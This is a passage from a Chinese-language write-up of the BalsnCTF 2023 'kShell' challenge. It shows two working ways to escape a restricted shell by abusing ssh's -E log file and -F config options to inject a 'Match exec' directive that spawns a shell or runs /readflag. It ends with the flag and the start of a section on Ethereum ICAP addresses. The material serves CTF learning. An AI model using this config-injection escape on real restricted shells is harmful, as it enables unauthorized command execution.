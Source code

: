     kshell~$ ssh -E 'Match exec "sh 0<&2 1>&2" #aaa' x
    kshell~$ ssh -F 'Match exec "sh 0<&2 1>&2" #aaa' -E aaa x
    kshell~$ ssh -F aaa x
    /home/kShell # /readflag
    BALSN{h0w_d1d_u_g3t_RCE_on_my_kSSHell??}

    # Special thanks to Orange's oShell challenge!
    ```
    提供以上解法的是DC裡面的一個`@lebrOnli`大大
    1. 它的意思是先利用`ssh -E`創造一個log file，名稱叫做`Match exec "sh 0<&2 1>&2" #aaa`，而後面的`x`就當作一般連線的host name，但反正一定是錯的
        ```bash
        $ ssh -E 'Match exec "sh 0<&2 1>&2" #aaa' x
        $ ll
        -rwxrwxrwx 1 sbk6401 sbk6401       62 Oct 16 00:01 'Match exec "sh 0<&2 1>&2" #aaa'
        $ cat Match\ exec\ \"sh\ 0\<\&2\ 1\>\&2\"\ \#aaa
        ssh: Could not resolve hostname x: Name or service not known
        ```
    2. 再利用這個log file當作config file丟給`ssh -F`，當然它會噴錯，因為裡面根本不是一般的config info
        ```bash
        $ ssh -F 'Match exec "sh 0<&2 1>&2" #aaa' -E aaa x
        $ cat aaa
        Match exec "sh 0<&2 1>&2" #aaa: line 1: Bad configuration option: ssh:
        Match exec "sh 0<&2 1>&2" #aaa: terminating, 1 bad configuration options
        ```
        此時可以看到檔案`aaa`的內容已經因為log append變成Match exec "sh 0<&2 1>&2"，而#字號後面就當作一般的comment
    3. 此時我們已經構建好config file了，則我們可以把aaa當作conig丟給ssh -F，它就會去執行裡面的內容，而實際上真正讓我們escape是因為exec，它會執行後面的東西完了以後就跳出目前的shell，然後就可以執行/readflag
* 解法二
    ```bash
    kshell~$ ssh localhost -F /proc/self/fd/1
    Match exec "/readflag>&2"
    BALSN{h0w_d1d_u_g3t_RCE_on_my_kSSHell??}

    # Special thanks to Orange's oShell challenge!
    ```
    這個解法更省力，誠如作者所說，如果config file是一個fd呢?它就會直接讓我們輸入東西當成它的configuration，所以只要下跟上面一樣的command就會跳出來，不過@itiscaleb是直接執行然後印出來，不知道這樣的操作為啥會成功，如果是我的話會直接用`Match exec "sh 0<&2 1>&2`跳出來再執行/readflag
Flag: `BALSN{h0w_d1d_u_g3t_RCE_on_my_kSSHell??}`
#### Reference
[^docker-bug-solution]:[Docker報錯OCI runtime exec failed: exec failed: unable to start container process: exec: "/bin/bash"解決](https://blog.csdn.net/qq_35764295/article/details/126379879)
[^docker-alpine]:[Alpine Linux 挑戰最小 docker image OS](https://blog.wu-boy.com/2015/12/a-super-small-docker-image-based-on-alpine-linux/)
[^kshell-wp]:[BalsnCTF 2023 kShell WP](https://itiscaleb.com/2023/10/Balsn-CTF-2023/)
### Web3:four:
#### Background
* [ethereumbook 第五章 密要、地址](https://cypherpunks-core.github.io/ethereumbook_zh/05.html)
    > 互換客戶端地址協議（ICAP）是一種部分與國際銀行帳號（IBAN）編碼兼容的以太坊地址編碼，為以太坊地址提供多功能，校驗和互操作編碼。ICAP地址可以編碼以太坊地址或通過以太坊名稱註冊表註冊的常用名稱。
    >
    >閱讀以太坊Wiki上的ICAP：https://github.com/ethereum/wiki/wiki/ICAP:-Inter-exchange-Client-Address-Protocol
    >
    >IBAN是識別銀行帳號的國際標準，主要用於電匯。它在歐洲單一歐元支付區（SEPA）及其以後被廣泛採用。IBAN是一項集中和嚴格監管的服務。ICAP是以太坊地址的分散但兼容的實現。
    >
    >一個IBAN由含國家程式碼，校驗和和銀行帳戶識別碼（特定國家）的34個字母數字字符（不區分大小寫）組成。
    >
    >ICAP使用相同的結構，通過引入代表“Ethereum”的非標準國家程式碼“XE”，後面跟著兩個字符的校驗和以及3個可能的帳戶識別碼變體
